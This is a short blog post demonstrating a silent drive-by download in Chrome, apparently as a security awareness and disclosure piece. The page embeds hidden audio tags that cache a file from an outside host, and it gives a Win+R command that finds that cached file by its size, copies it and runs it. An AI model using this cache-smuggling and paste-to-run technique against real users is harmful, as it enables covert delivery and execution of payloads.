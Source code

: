 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if you dare to paste this seemingly harmless command in a Win+R prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC is a harmless demo
  * Chiptune in PoC is (c) 1999 WAVE
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
